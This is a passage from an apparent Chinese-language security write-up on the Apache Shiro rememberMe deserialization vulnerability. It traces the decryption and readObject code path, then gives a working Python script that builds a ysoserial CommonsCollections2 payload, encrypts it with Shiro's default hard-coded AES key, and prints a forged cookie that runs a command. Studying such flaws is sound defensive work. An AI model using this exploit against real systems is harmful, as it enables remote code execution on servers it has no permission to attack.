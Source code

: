 这里会调用decrypt方法进行AES解密

![image-20220314212745190](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220314212745190.png)

这里主要是AES解密，用硬编码的密钥，流程就不看了，具体可以在这篇文章https://www.anquanke.com/post/id/225442#h3-6看到，有兴趣的时候可以去看看加密和解密的流程

还是回到convertBytesToPrincipals方法来

![image-20220314212948142](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220314212948142.png)

对解密后的参数调用了deserialize方法

```
protected PrincipalCollection deserialize(byte[] serializedIdentity) {
    return (PrincipalCollection)this.getSerializer().deserialize(serializedIdentity);
}
```

继续跟进deserialize

![image-20220314213048438](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220314213048438.png)

终于走到了readObject进行反序列化了

# 漏洞利用

伪造cookie的exp

```
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections2', command],stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    # 这里密钥key是已知的，在shiro官网上有,可根据不同系统替换密钥
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme("dir")
    print("rememberMe={0}".format(payload.decode()))
```
